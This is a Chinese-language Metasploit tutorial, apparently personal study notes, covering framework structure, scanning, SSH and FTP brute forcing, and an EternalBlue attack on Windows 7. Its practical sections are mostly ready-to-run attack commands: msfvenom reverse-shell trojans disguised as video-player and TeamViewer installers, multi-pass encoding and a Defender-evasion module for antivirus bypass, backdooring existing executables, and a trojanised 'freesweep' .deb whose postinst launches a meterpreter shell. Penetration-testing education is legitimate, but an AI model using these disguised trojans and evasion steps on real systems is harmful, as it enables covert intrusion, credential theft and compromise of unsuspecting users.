

# Metasploit

\[TOC]

## 使用框架结构

<figure><figcaption></figcaption></figure>

## 一、 介绍

### 1. 体系框架

1.  基础库： metasploit 基础库文件位与源码根目录路径下的 libraries 目录中，包括 Rex, framework-core framework-base 三部分

    > * Rex 是整个框架依赖的最基础的一些组件，如包装的网络套接字。网络应用协议客户端与服务端实现，日志子系统、渗透攻击支持例程、PostgreSQL 以及 MYSQL 数据库支持等
    > * framework-core 库负责实现所有与各种类型的上层模块以及插件的交互接口
    > * framwork-base 库扩展了 framework-core ， 提供了更加简单的包装例程，并为处理框架各个方面的功能提供了一些功能类，用于支持用户接口与功能程序调用框架本身功能以及框架集成模块
2. 模块： 模块组织按照不同的用途分为六个类型的模块： 辅助模块(AUX)、渗透攻击模块(Exploits)、后渗透攻击模块(Post)、攻击载荷模块(payloads)、编码器模块(Encoders)、空指令模块(Nops)
3. 插件： 插件能够扩充框架的功能，或者组装已有功能构成高级特性的组件，
4. 接口： 包括 msfconsole 控制终端、msfcli 命令行、msfgui 图形化界面、armitage 图形化界面 、msfapi 远程调用接口
5. 功能程序： metasploit 还提供了一系列可直接运行的功能程序，支持渗透测试者与安全人员快速的利用框架内部能力完成一些特定任务

### 2. 目录结构

* data ：MSF 使用的可编辑文件
* documentation: 为框架提供文档
* lib : 框架代码库
* modules : 实际的 MSF 的模块
* plugins : 可以在运行时加载的插件
* scripts ： Meterpreter 和其它脚本
* tools : 各种有用的命令行工具

## 二、组件

### 1. 模块

| 类型        | 描述                  |
| --------- | ------------------- |
| Auxiliary | 扫描、模糊、嗅探、管理功能       |
| Encoders  | 编码                  |
| Exploits  | 允许利用有效负载传递漏洞的模块     |
| NOPs      | 在漏洞利用尝试中保持有效负载大小一致  |
| Payloads  | 代码远程指定并回调攻击者机器以建立连接 |
| Plugins   | 其他脚本                |
| Post      | 广泛的模块收集信息           |

### 2. 目标

```shell
show targets  # 展示指定模块的目标 EXP 版本
set target NO # 设置使用那一个目标 EXP
```

### 3. Payload

```shell
show payloads  # 展示所有 Payload
grep meterpreter show payloads  # 搜索特定的 Payload
```

| 有效载荷                              | 描述                                          |
| --------------------------------- | ------------------------------------------- |
| generic/custom                    | 通用监听器，多用途                                   |
| generic/shell\_bind\_tcp          | 通用监听器，多用，普通shell，TCP连接绑定                    |
| generic/shell\_reverse\_tcp       | 通用监听器，多用，普通shell，反向TCP连接                    |
| windows/x64/exec                  | 执行任意命令 (Windows x64)                        |
| windows/x64/loadlibrary           | 加载任意 x64 库路径                                |
| windows/x64/messagebox            | 使用可自定义的标题、文本和图标通过 MessageBox 生成对话框          |
| windows/x64/shell\_reverse\_tcp   | 普通外壳，单一负载，反向 TCP 连接                         |
| windows/x64/shell/reverse\_tcp    | 普通shell，stager + stage，反向TCP连接              |
| windows/x64/shell/bind\_ipv6\_tcp | 普通shell，stager + stage，IPv6 Bind TCP stager |
| windows/x64/meterpreter/$         | Meterpreter 有效载荷 + 以上品种                     |
| windows/x64/powershell/$          | 交互式 PowerShell 会话 + 上述品种                    |
| windows/x64/vncinject/$           | VNC Server (Reflective Injection) + 以上品种    |

### 4. 编码器

```shell
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

### 5. 数据库

```shell
sudo systemctl start postgresql  # 启动 postgresql 数据库
msfdb init  # 启动 MSF 数据库

# 工作区
    workspace # 查看全部工作区
    workspace -a name # 创建工作区
    workspace -d name # 删除指定工作区
    workspace name # 切换到指定工作区

# 导入其他工作 (eg : nmap) 扫描结果，只支持导入 .xml
db_import Target.xml

# 数据库备份
db_export -f xml backup.xml  # 导出到指定文件中

hosts -h  # 主机地址、主机名和我们在扫描和交互过程中找到的有关这些的其他信息
services -h # 包含有关在扫描或交互期间发现的服务的描述和信息
creds -h  # 手机与目标主机交互的凭据
loot -h # 提供拥有服务和用户的概览列表
```

### 6. 插件

> 1. 插件需要安装在 /usr/share/metasploit-framework/plugins

```shell
load nessus  # 加载 nessus 插件

# 下载其他插件 .rd  移动到指定目录下，并进行加载
cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb
load pentest
```

## 三、命令使用

### 1. search 命令

```shell
# type: 指定查找模块类型
# platform ：模块使用的平台
# cve : 指定 模块的 CVE 年份
# rank ： 可靠等级
search type:exploit platform:windows cve:2021 rank:excellent microsoft
```

## 四、MSF sessions

### 1. 会话

```shell
sessions # 展示所有会话
sessions -i no # 打开指定会话
```

### 2. Meterpreter

```shell
steal_token 1836 # 迁移进程

# 下方模板是用来自动检测指定会话上可以使用的漏洞， 他可以查出很多漏洞，当有多个可执行时，需要一个一个验证
use post/multi/recon/local_exploit_suggester

# 转储哈希
hashdump
lsa_dump_sam

# Meterpreter LSA 机密转储
lsa_dump_secrets
```

## 五、基本使用

### 1. 核心命令

1. conect 命令： connect 的命令主要用于远程连接主机，一般用于内网渗透

<figure><figcaption></figcaption></figure>

### 2. 模块命令

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## 六、信息收集

### 1. 基于 TCP 协议进行收集

1. 使用 MSF 中的 nmap 和 arp\_sweep 进行收集主机信息
   1. 使用 nmap : `db_nmap -sV 192.168.18.2`
   2. 使用 ARP 进行扫描： `use auxiliary/scanner/discovery/arp_sweep`
2. 使用半连接扫描 TCP
   1. 使用 SYN 数据报扫描： `use auxiliary/scanner/portscan/syn`
3. 使用 auxiliary/sniffer 下的 psnuffle 模块进行密码嗅探
   1. 在局域网内进行网络嗅探： `use auxiliary/sniffer/psnuffle` 关闭方法： `jobs -K` 关闭所有

### 2. 基于 SNMP 协议收集主机信息

1. 定义： SNMP 全称 简单网络管理协议，由一组网络管理的标准组成，包含一个应用层协议、数据库模型和一组资源对象，该协议能够支持网络管理系统，用以检测连接到网络上的设备是否有任何引起管理上关注的情况
2.  执行： 目标主机开启 SNMP 服务：

    ```shell
    use auxiliary/scanner/snmp/snmp_enum 
    ```

​ `可以查到的信息： 服务器硬件信息、当前运行进程`

### 3. 基于 SMB 协议进行信息收集

1. 介绍： SMB 全称 服务器消息块，又称网络文件共享系统，是一种应用层网络传输协议，主要功能是使网络上的机器能够共享计算机文件、打印机、串行端口和通讯等资源
2. 扫描版本号 `use auxiliary/scanner/smb/smb_enumshares`
3.  扫描共享文件(账号、密码)

    ```shell
    use auxiliary/scanner/smb/smb_enumshares
    set SMBUser Administrator
    set SMBPASS 123456
    ```
4.  使用 SMB\_lookupsid 扫描系统用户的信息

    ```shell
    use auxiliary/scanner/smb/smb_lookupsid
    set SMBUser Administrator
    set SMBPASS 123456
    ```

### 4. 基于SSH协议信息收集

1.  查看 SSH 服务版本信息

    ```shell
    use auxiliary/scanner/ssh/ssh_version     # 辅助模块
    set rhosts 192.168.18.137  # 设置目标参数
    run # 执行
    ```
2.  对 SSH 暴力破解

    ```shell
    use  auxiliary/scanner/ssh/ssh_login  # 使用攻击模块
        set rhosts 192.168.18.137  # 设置目标参数
        set  USERPASS_FILE  /home/jlb/root_userpass.txt  # 设置密码文件
        set VERBOSE  true # 显示破解过程
        run # 执行
        seesions  # 显示会话
        sessions -i 1 # 使用指定会话
    ```

### 4. 基于 FTP 协议进行信息收集

```shell
use auxiliary/scanner/ftp/ftp_version # 使用指定模块 查看 FTP 版本
	set rhosts 192.168.18.137  # 设置参数
	run  # 执行
use  exploit/unix/ftp/vsftpd_234_backdoor  # 使用指定版本的模块
	set rhosts 192.168.18.137  # 设置参数
	run # 执行
```

FTP 匿名登陆：

```shell
use auxiliary/scanner/ftp/anonymous   # 使用指定模块
	set rhosts 192.168.18.137  # 设置参数
	run # 执行
	# 执行成功后。使用 FTP 软件进行连接
```

FTP 暴力破解：

```shell
use auxiliary/scanner/ftp/ftp_login  # 设置指定模块
	set rhosts 192.168.18.137  # 设置参数
	set  USERPASS_FILE  /home/jlb/root_userpass.txt  # 设置密码文件
	run # 执行
```

## 七、实战

攻击流程：\


<figure><figcaption></figcaption></figure>

### 1. 使用永恒之蓝攻击 win7

> 前提 开启 445 端口

命令：

```shell
search MS17-010  # 查询相关漏洞exp
use auxiliary/scanner/smb/smb_ms17_010    # 使用验证模块
    show options  # 展示指定模块的参数
    set rhosts 192.168.18.128  # 设置参数
    msf6 auxiliary(scanner/smb/smb_ms17_010) > run # 执行后返回的数据
        [+] 192.168.18.128:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600
        [*] 192.168.18.128:445    - Scanned 1 of 1 hosts (100% complete)
        [*] Auxiliary module execution completed
back # 返回
use exploit/windows/smb/ms17_010_eternalblue  # 使用指定exp模块
	show options # 展示参数
	set rhosts 192.168.18.128 # 设置参数
	show targets  # 展示当前模块可以攻击的目标
	show payloads  # 展示 payloads  
	set payload payload/windows/x64/shell_reverse_tcp    # 设定要使用的 payload
		set lhost 192.168.18.143  # 设置 payload 的参数
	执行 exp：
    	第一种：
    		run # 执行 payload,当页面出现 WIN 后表示入侵成功
			chcp 65001      # 如果乱码执行此命令
		第二种：
			exploit -j  # 执行后将会话转入后台
			sessions   # 展示当前所有的会话
			sessions -i ID # 使用指定会话
			background # 返回，MSF 但是不会删除会话
			sessions -k ID  # 杀死命令窗口
```

### 2. 使用 MSF 扫描 MYSQL 服务空密码

> 这里主要讲 MSF 的进阶使用
>
> 数据库后端命令：
>
> * db\_connect 连接到现有的数据库
> * db\_disconnect 断开与当前数据库实例的连接
> * db\_export 导出包含数据库内容的文件
> * db\_import 导入扫描结果文件

```shell
creds  # 列出数据库中所有凭据
db_export -f xml /rppt/bak.xml  # 将数据导出到指定文件
// 另一个 MSF 命令窗口
msfdb reinit  # MSF 的数据库清除
hosts  #  所有渗透测试记录
db_import 文件  # 将文件导入数据库中
services  # 所有的目标在当前数据库中的服务信息
	services -R  IP # 展示指定目标的信息
```

### 3. 客户端渗透原理

> 在无法突破对方网络边界的时候，往往需要使用客户端渗透这种方式对目标发起攻击，比如我们向目标发一个含有后门的程序或者是一个 word 文档、PDF 文件

#### 1. 制作 Windows 恶意软件获取 shell

> msfvenom 是 msfpayload msfencode 的2结合体，可以利用 msfvenom 生成木马程序，并在目标机上执行，在本地监听

1. 目标： 使用 msfvenon 生成快播和西瓜影音看片神奇后门木马
2. 流程：\
   
3.  生成后门程序

    ```shell
    # 使用一个编码器
    msfvenom # 工具
    	-a x86 # 指定架构
    	--platform windows # 指定平台
    	-p windows/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
    	-b "\x00" # 去掉坏字符坏字符会影响 payload  执行
    	-e x86/shikata_ga_nai # 指定编码器，面杀
    	-i 10 # 指定编码次数
    	-f exe # 指定输出文件格式
    	-o /ver/www/html/西瓜影音1.exe  # 文件输出位置
    	
    # 使用两个编码器
    msfvenom # 工具
    	-a x86 # 指定架构
    	--platform windows # 指定平台
    	-p windows/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
    	-b "\x00" # 去掉坏字符
    	-e x86/shikata_ga_nai   # 指定编码器，面杀
    	-i 20 # 指定编码次数
    	| # 连接符
    	msfvenom -a x86 --platform windows -e x86/alpha_upper -i 10 # 第二个编码器
    	-f exe # 指定输出文件格式
    	-o /ver/www/html/西瓜影音1.exe  # 文件输出位置
    ```
4.  使用 MSF 监听

    ```shell
    use exploit/multi/handler  # 设置模块
    	set payload windows/meterpreter/reverse_tcp # 设置 payload
    	set lhost 192.168.18.143  # 与生成木马的地址一样
    	run  # 执行
    		# 查看获取的权限，进行提权
    ```
5.  模拟黑客给软件加后门： 在 .exe 文件中注入后门。 注入思路： 先看主程序附加了那些小程序，在小程序上面进行添加 payload

    ```shell
    # 使用 kaill 工具给附加小程序添加 payload  
    msfvenom # 工具
    	-a x86 # 指定架构
    	--platform windows # 指定平台
    	-p windows/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
    	-b "\x00" # 去掉坏字符坏字符会影响 payload  执行
    	-e x86/shikata_ga_nai # 指定编码器，面杀
    	-i 10 # 指定编码次数
    	-x  1.exe  # 要植入后门的文件
    	-f exe # 指定输出文件格式
    	-o /ver/www/html/1.exe  # 文件输出位置
    ```
6.  使用 evasion 模块生成免杀木马：

    ```shell
    use evasion/windows/windows_defender_exe  # 使用指定模块
    	set FILENAME xue.exe  # 设置文件名称
    	set payload windows/meterpreter/reverse_tcp  # 设置 payload
    	set Lhosts 192.168.1.104 # 设置 hosts
    	run # 执行

    # 监听
    use exploit/multi/handler  # 设置模块
    	set payload windows/meterpreter/reverse_tcp # 设置 payload
    	set lhost 192.168.18.143  # 与生成木马的地址一样
    	run  # 执行
    		# 查看获取的权限，进行提权
    ```

#### 2. 制作 Linux 恶意软件

```shell
# 使用一个编码器
msfvenom # 工具
	-a x64 # 指定架构
	--platform linux # 指定平台
	-p linux/x64/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
	-b "\x00" # 去掉坏字符坏字符会影响 payload  执行
	-i 10 # 指定编码次数
	-f elf # 指定输出文件格式
	-o /ver/www/html/西瓜影音1.exe  # 文件输出位置
	
# 监听
use exploit/multi/handler  # 设置模块
	set payload linux/x/meterpreter/reverse_tcp # 设置 payload
	set lhost 192.168.18.143  # 与生成木马的地址一样
	run  # 执行
		# 查看获取的权限，进行提权
```

### 4. 制作恶意 deb 软件包进行渗透

制作恶意软件包使用 --download-only 方式下载软件包，不进行安装，eg: 安装 frteesweep

```shell
apt --download-only install freesweep  # 只下载不安装，下载的位置在 /var/cache/apt/archives
dpkg -x freesweep_1.0.2-1_amd64.deb free  # 解压 deb 软件包

msfvenom 	-a x64 	--platform linux  -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=4444 -b "\x00"  -i 10  -f elf  -o /root/free/usr/games/freesweep_sources # 生成后门程序

# 创建软件包信息目录
	mkdir free/DEBIAN && cd free/DEBIAN  # 创建目录
	vim /root/free/DEBIAN/control  # 创建信息文件
	# 信息内容：
	Package: freeweep
    Version: 1.0.1-1
    Section: Games and Amusement
    Priority: optionsal
    Architecture: amd64
    Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com)
    Description: a text-based minesweeper
     Freesweep is an implementation of the popular minesweeper game,where one tries to find all the mines without igniting
     any,based on hints given by the computer. Unlike most implementations of this game,Freesweep workd in any visual text
     display - in Linux console,in an xterm,and in most text-based terminals currently in use.
     
# 安装后脚本文件，来加载后门
	vim /root/free/DEBIAN/postinst 
	# 信息内容：
        #!/bin/bash
        sudo chmod 2755 /usr/games/freesweep_sources
        sudo /usr/games/freesweep_sources &
	# 设置权限
	chmod 755 /root/free/DEBIAN/postinst 
	
# 重新生成软件包
	dpkg-deb --build /root/free # 制作 deb 软件包
	
# 执行监听
	use exploit/multi/handler
	set payload linux/x64/meterpreter/reverse_tcp
	set LHOST 192.168.18.143
# 安装 deb  文件：
	dpkg -i free.deb
# 成功
```

### 5. 基于 JAVA 环境的漏洞环境

### 6. 利用宏感染 word 文档获取 shell
